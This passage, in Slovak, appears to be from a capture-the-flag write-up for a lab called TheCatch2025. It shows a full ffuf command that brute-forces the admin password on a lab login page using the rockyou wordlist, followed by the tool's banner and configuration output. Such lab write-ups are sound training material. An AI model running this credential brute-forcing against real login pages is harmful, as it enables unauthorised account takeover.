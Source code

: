 Tak je tam jeden endpoint `/app/`

![www1.png](www1.png)

Skúsim brutnúť používateľa admin.

```
ffuf -X $'POST' -u 'http://wwwhost-new.powergrid.tcc:8000/app/login.php' -H 'Host: wwwhost-new.powergrid.tcc:8000'  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H 'Accept-Language: en-US,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-NL;q=0.6' -H 'Cache-Control: max-age=0' -H 'Connection: keep-alive' -H 'Content-Type: application/x-www-form-urlencoded' -b 'PHPSESSID=v94jd9vlakphib8edl239qu3as' -H 'Origin: http://wwwhost-new.powergrid.tcc:8000' -H 'Referer: http://wwwhost-new.powergrid.tcc:8000/app/login.php' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36' --data 'username=admin&password=FUZZ' -w rockyou.txt -fs 1618

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://wwwhost-new.powergrid.tcc:8000/app/login.php
 :: Wordlist         : FUZZ: /mnt/c/ctf/TheCatch2025/rockyou.txt
 :: Header           : Connection: keep-alive
 :: Header           : Origin: http://wwwhost-new.powergrid.tcc:8000
 :: Header           : Referer: http://wwwhost-new.powergrid.tcc:8000/app/login.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Cache-Control: max-age=0
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
 :: Header           : Cookie: PHPSESSID=v94jd9vlakphib8edl239qu3as
 :: Header           : Host: wwwhost-new.powergrid.tcc:8000
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Header           : Accept-Language: en-US,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-NL;q=0.6
 :: Data             : username=admin&password=FUZZ
```